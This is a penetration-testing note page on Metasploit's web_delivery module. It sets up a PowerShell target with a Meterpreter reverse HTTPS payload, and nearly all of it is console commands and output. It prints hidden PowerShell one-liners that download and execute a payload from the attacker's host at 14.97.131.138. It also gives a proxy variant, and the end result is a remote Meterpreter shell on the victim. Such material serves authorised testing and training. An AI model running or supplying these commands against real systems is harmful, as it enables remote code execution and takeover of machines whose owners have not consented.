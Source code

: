 ## Metasploit Web Delivery

\(lazy version of uploading php-reverse-shell.php from pentest monkey\)

[Metasploit Web Delivery](https://www.offensive-security.com/metasploit-unleashed/web-delivery/)

Metasploit’s Web Delivery Script is a versatile module that creates a server on the attacking machine which hosts a payload. When the victim connects to the attacking server, the payload will be executed on the victim machine. This module has a powershell method which generates a string which is needed to be executed on remote windows machine.

```
msf > use exploit/multi/script/web_delivery
msf exploit(web_delivery) > show targets

Exploit targets:

   Id  Name
   --  ----
   0   Python
   1   PHP
   2   PSH


msf exploit(web_delivery) > set target 2
target => 2
msf exploit(web_delivery) > set payload windows/x64/meterpreter/reverse_https
payload => windows/x64/meterpreter/reverse_https
msf exploit(web_delivery) > set lhost 14.97.131.138
lhost => 14.97.131.138
msf exploit(web_delivery) > run
[*] Exploit running as background job.

[*] Started HTTPS reverse handler on https://14.97.131.138:8443
msf exploit(web_delivery) > [*] Using URL: http://0.0.0.0:8080/uMOKs6wtlYL
[*] Local IP: http://14.97.131.138:8080/uMOKs6wtlYL
[*] Server started.
[*] Run the following command on the target machine:
powershell.exe -nop -w hidden -c $X=new-object net.webclient;$X.proxy=[Net.WebRequest]::GetSystemWebProxy();$X.Proxy.Credentials=[Net.CredentialCache]::DefaultCredentials;IEX $X.downloadstring('http://14.97.131.138:8080/uMOKs6wtlYL');
```

When the following command \(when there is no proxy\)

```
powershell.exe -nop -w hidden -c $X=new-object net.webclient;IEX $X.downloadstring('http://14.97.131.138:8080/uMOKs6wtlYL');
```

or \(when there is proxy\)

```
powershell.exe -nop -w hidden -c $X=new-object net.webclient;$X.proxy=[Net.WebRequest]::GetSystemWebProxy();$X.Proxy.Credentials=[Net.CredentialCache]::DefaultCredentials;IEX $X.downloadstring('http://14.97.131.138:8080/uMOKs6wtlYL');
```

is executed on the windows remote machine, we should get a meterpreter.

```
Delivery web_delivery payload
meterprerter>
```




